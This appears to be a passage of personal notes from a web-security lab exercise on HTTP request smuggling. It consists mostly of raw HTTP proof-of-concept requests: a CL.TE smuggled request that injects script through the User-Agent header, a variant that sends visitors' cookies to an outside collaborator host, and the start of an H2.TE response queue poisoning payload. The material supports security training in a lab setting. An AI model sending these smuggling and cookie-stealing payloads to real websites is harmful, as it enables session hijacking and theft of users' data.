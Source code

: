 a response part when visiting a blog:
```
                       <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
                            <input required type="hidden" name="csrf" value="dqLBOcG9khs4JN7rBXEmu249pZ2xT5b5">
                            <input required type="hidden" name="userAgent" value="Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0">
                            <input required type="hidden" name="postId" value="2">
```

FINAL PoC:
```
POST / HTTP/1.1
Host: 0a27009e04ab960f8287fbb30072003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 182
Transfer-Encoding: chunked

0

GET /post?postId=2 HTTP/1.1
User-Agent: a"/><script>alert("The kookie is: "+document.cookie)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

with collaborator:
```
POST / HTTP/1.1
Host: 0a27009e04ab960f8287fbb30072003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 237
Transfer-Encoding: chunked

0

GET /post?postId=2 HTTP/1.1
User-Agent: a"/><script>document.location='http://qkeyvgg9k1nkgz5tj1xzcifkrbx2l19q.oastify.com/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```


## Response queue poisoning via H2.TE request smuggling

poc payload:

POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 13
